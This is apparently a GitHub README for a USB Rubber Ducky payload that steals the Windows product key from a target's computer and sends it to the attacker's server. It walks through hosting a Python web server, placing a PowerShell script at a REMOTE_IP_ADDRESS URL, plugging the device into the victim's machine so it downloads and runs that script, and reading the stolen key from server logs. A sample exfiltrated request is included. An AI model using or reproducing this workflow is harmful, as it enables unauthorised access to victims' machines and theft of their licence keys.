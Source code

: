 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Windows+Product+Duckey+🦆🔑&center=true&size=25">
  </a>
</h1>

## Description

This payload exfiltrate the target's Windows product key to a remote server. *Only works on Windows 10,11.*

## Demo

<h2 align="center">
  <img src="https://raw.githubusercontent.com/Who-Is-Julien/Ducky-Scripts/Windows-Product-Duckey/demo.gif">
</h2>

Here we can see that the attacker's server received the following request:
```
GET /?duckey=A1B2C-3D4E5-F6G6F-5E4D3-C2B1A HTTP/1.1
```
*Which contains the target's Windows product key!*

## Usage

To use this script, follow these steps:

1. Set up a website on your server or a computer in the same network as the target's computer. You can use Python to do this by running the following command:
```
python -m http.server 80
```
2. Download the payload.txt and .ps1 files and modify them to include the IP address of your server.
3. Move the modified .ps1 file to the root directory of your website, so it is downloadable from this address:
```
http://REMOTE_IP_ADDRESS/.ps1
```
4. Plug in your device that is configured with the modified payload.txt to the target's computer.
5. Wait for the target to download and execute the .ps1 file from your website. You can track the target's IP address and Windows product key by checking your website logs.



***Note**: This script is designed to send the results to a specific server, so you don't have to rely on any file sharing services. Additionally, you can easily adapt it to work with encrypted sites.*
